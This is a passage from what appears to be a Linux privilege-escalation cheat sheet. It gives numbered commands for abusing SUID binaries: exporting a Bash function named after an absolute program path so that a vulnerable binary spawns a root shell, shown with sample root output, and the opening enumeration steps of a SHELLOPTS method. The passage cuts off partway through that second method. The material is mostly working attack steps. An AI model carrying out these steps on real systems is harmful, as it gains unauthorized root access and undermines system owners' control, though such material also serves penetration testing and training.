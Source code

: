     ```
    strings /usr/local/bin/binary_name
    ```
3.  We can verify which program is calling with strace:

    ```
    strace -v -f -e execve /usr/local/bin/binary_name 2>&1
    ```
4.  Alternatively, we can also verify with ltrace:

    ```
    ltrace /usr/local/bin/binary_name 2>&1 
    ```
5.  Verify the version of Bash is lower than 4.2-048:

    ```
    $ bash --version
    GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
    ```
6.  Create a Bash function with the name “/usr/sbin/serviceCalled” (change this to the actual name of the program being called) and export the function:

    ```
    function /usr/sbin/serviceCalled { /bin/bash -p; }
    export –f /usr/sbin/serviceCalled
    ```
7.  Execute the SUID file for a root shell:

    ```
    $ /usr/local/bin/binary_name
    root@victim:~# id
    uid=0(root) gid=0(root) groups=0(root) ...
    ```

### SHELLOPTS

.

#### SHELLOPTS Privilege Escalation

1.  Enumerate SUID/SGID files on the target:

    ```
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    ```
2.  Enumerate strings on the SUID file:

    ```
    strings /usr/local/bin/binary_name
    ```
3.  The binary may be trying to include a file, we can verify this with strace:

    ```
    strace -v -f -e execve /usr/local/bin/binary_name 2>&1
    ```
4.  Alternatively, we can also verify with ltrace:

